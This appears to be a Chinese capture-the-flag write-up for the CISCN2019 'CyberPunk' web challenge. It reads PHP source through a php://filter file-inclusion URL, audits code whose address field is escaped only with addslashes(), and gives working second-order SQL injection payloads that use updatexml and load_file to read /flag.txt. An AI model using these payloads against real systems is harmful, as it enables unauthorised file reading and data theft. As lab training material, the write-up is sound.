


# [CISCN2019 华北赛区 Day1 Web5]CyberPunk

## 知识点

`文件包含`

`sql注入`

`二次注入`

## 解题

进入首页后在源代码处找到了隐藏信息



`LFI`读取文件

```url
?file=php://filter/convert.base64-encode/resource=
```

`index.php`

```php
<?php

ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```

`search.php`

```php
<?php

require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

`change.php`

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

`delete.php`

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $result = $db->query('delete from `user` where `user_id`=' . $row["user_id"]);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单删除成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

通过代码审计可以发现，`user_name`和`phone`都进行了严格的过滤，但是`address`只用`addslashes()`对预定义字符进行了转义，所以`address`参数为可以利用的注入点。

由于`address`被`addslashes()`转义以后单引号等无法使用，但是更新地址时，会将旧地址保存下来，所以我们只要将在第一次修改地址时输入`SQL`注入语句，在第二次更新时（随便输），第一次更新的`SQL`语句会被调用从而引发`二次注入`。


提交订单后修改两次订单，第二次会执行

```sql
address=1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

address=1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)#
```




因`CISCN`的`flag`是存在根目录下，故读取根目录文件